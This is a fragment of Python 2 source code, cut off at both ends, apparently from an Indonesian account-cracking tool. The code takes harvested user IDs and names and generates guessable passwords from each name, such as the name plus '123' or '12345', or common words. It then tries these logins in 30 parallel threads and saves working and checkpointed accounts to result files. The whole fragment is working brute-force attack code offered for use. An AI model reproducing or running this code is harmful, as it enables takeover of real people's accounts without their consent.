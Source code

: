             os.remove(self.apk)
            hasil(ok,cp)
        elif yan in ('2', '02'):
            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
            with YayanGanteng(max_workers=30) as (__yayanXD__):
            	for yntks in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        bb = yntks.split('<=>')
                        xz = bb[1].split(' ')
                        if len(xz) == 1:
                            raimuuu = [
                                xz[0], xz[0]+'123', xz[0]+'1234',
                                xz[0]+'12345',
                            ]
                        elif len(xz) == 2:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                            ]
                        elif len(xz) == 3:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                                xz[2]+'123', xz[2]+'12345',
                            ]
                        elif len(xz) == 4:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                                xz[2]+'123', xz[2]+'12345',
                                xz[3]+'123', xz[3]+'12345',
                            ]
                        else:
                            raimuuu = [
                                'sayang', 'anjing',
                                'bismillah', '123456'
                            ]
                        __yayanXD__.submit(self.__mbasic__, bb[0], raimuuu)
                    except:
                        pass

            os.remove(self.apk)
            hasil(ok,cp)
        elif yan in ('3', '03'):
            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)
            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)
            with YayanGanteng(max_workers=30) as (__yayanXD__):
            	for yntks in self.id: # Yo Ndak Tau Kok Tanya Saia
                    try:
                        bb = yntks.split('<=>')
                        xz = bb[1].split(' ')
                        if len(xz) == 1:
                            raimuuu = [
                                xz[0], xz[0]+'123', xz[0]+'1234',
                                xz[0]+'12345',
                            ]
                        elif len(xz) == 2:
                            raimuuu = [
                                xz[0]+'123', xz[0]+'12345',
                                xz[1]+'123', xz[1]+'12345',
                            ]